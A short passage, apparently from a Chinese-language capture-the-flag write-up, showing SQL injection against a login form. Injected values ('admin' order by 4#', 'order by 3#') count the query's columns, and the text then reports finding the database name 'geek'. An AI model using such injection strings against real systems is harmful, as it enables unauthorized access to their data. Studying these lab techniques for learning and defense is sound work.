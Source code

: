 ```
admin' order by 4# 
```

![在这里插入图片描述](img/942746a9dca1d5e86d4afb420b215697.png)

```
admin' order by 3# 
```

![在这里插入图片描述](img/549f46387c59c9780055a4285f85b412.png)
说明有3列，然后爆破数据库

![在这里插入图片描述](img/82424edc8e96f60bd3b2861a3d3abd22.png)
数据库名为geek
